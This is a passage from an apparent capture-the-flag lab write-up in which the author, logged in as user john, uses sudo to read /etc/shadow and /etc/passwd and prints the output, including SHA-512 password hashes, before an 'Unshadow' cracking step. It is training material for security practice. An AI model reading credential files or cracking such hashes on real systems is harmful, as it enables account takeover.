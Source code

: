 ```
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::


```

Now we can use cat to see the passwd file :

```
john@bruteit:/$ sudo cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
thm:x:1000:1000:THM Room:/home/thm:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
john:x:1001:1001:john,,,:/home/john:/bin/bash

```

## Unshadow 
